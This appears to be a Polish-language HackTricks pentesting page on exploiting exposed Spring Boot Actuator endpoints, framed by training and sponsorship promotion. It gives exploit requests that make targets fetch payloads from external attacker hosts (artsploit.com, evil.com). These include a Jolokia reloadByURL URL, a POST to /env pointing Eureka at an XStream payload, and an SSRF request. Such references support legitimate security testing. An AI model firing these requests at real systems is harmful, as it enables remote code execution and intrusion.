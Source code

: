 # Spring Actuators

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się sztuczkami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}
{% endhint %}

## **Spring Auth Bypass**

<figure><img src="../../.gitbook/assets/image (927).png" alt=""><figcaption></figcaption></figure>

**Z** [**https://raw.githubusercontent.com/Mike-n1/tips/main/SpringAuthBypass.png**](https://raw.githubusercontent.com/Mike-n1/tips/main/SpringAuthBypass.png)\*\*\*\*

## Wykorzystywanie Spring Boot Actuators

**Sprawdź oryginalny post z** \[**https://www.veracode.com/blog/research/exploiting-spring-boot-actuators**]

### **Kluczowe punkty:**

* Spring Boot Actuators rejestrują punkty końcowe, takie jak `/health`, `/trace`, `/beans`, `/env`, itp. W wersjach od 1 do 1.4, te punkty końcowe są dostępne bez uwierzytelnienia. Od wersji 1.5 wzwyż, tylko `/health` i `/info` są domyślnie nieczułe, ale deweloperzy często wyłączają to zabezpieczenie.
* Niektóre punkty końcowe Actuator mogą ujawniać wrażliwe dane lub pozwalać na szkodliwe działania:
* `/dump`, `/trace`, `/logfile`, `/shutdown`, `/mappings`, `/env`, `/actuator/env`, `/restart`, i `/heapdump`.
* W Spring Boot 1.x, actuatory są rejestrowane pod głównym URL, podczas gdy w 2.x, są pod podstawową ścieżką `/actuator/`.

### **Techniki wykorzystywania:**

1. **Zdalne wykonanie kodu przez '/jolokia'**:
* Punkt końcowy `/jolokia` udostępnia bibliotekę Jolokia, która umożliwia dostęp HTTP do MBeans.
* Akcja `reloadByURL` może być wykorzystana do przeładowania konfiguracji logowania z zewnętrznego URL, co może prowadzić do ślepego XXE lub zdalnego wykonania kodu przez skonstruowane konfiguracje XML.
* Przykład URL exploita: `http://localhost:8090/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/artsploit.com!/logback.xml`.
2. **Modyfikacja konfiguracji przez '/env'**:
* Jeśli biblioteki Spring Cloud są obecne, punkt końcowy `/env` pozwala na modyfikację właściwości środowiskowych.
* Właściwości mogą być manipulowane w celu wykorzystania luk, takich jak luka deserializacji XStream w usłudze Eureka serviceURL.
* Przykład exploita POST:

```
POST /env HTTP/1.1
Host: 127.0.0.1:8090
Content-Type: application/x-www-form-urlencoded
Content-Length: 65

eureka.client.serviceUrl.defaultZone=http://artsploit.com/n/xstream
```
3. **Inne przydatne ustawienia**:
* Właściwości takie jak `spring.datasource.tomcat.validationQuery`, `spring.datasource.tomcat.url`, i `spring.datasource.tomcat.max-active` mogą być manipulowane w celu różnych exploitów, takich jak SQL injection lub zmiana ciągów połączeń z bazą danych.

### **Dodatkowe informacje:**

* Kompletna lista domyślnych actuatorów znajduje się [tutaj](https://github.com/artsploit/SecLists/blob/master/Discovery/Web-Content/spring-boot.txt).
* Punkt końcowy `/env` w Spring Boot 2.x używa formatu JSON do modyfikacji właściwości, ale ogólna koncepcja pozostaje ta sama.

### **Pokrewne tematy:**

1. **Env + H2 RCE**:
* Szczegóły dotyczące wykorzystywania kombinacji punktu końcowego `/env` i bazy danych H2 można znaleźć [tutaj](https://spaceraccoon.dev/remote-code-execution-in-three-acts-chaining-exposed-actuators-and-h2-database).
2. **SSRF w Spring Boot przez niewłaściwą interpretację nazwy ścieżki**:
* Obsługa parametrów macierzowych (`;`) w nazwach ścieżek HTTP przez framework Spring może być wykorzystana do Server-Side Request Forgery (SSRF).
* Przykład żądania exploita:

```http
GET ;@evil.com/url HTTP/1.1
Host: target.com
Connection: close
```
{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się sztuczkami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}
</details>
{% endhint %}
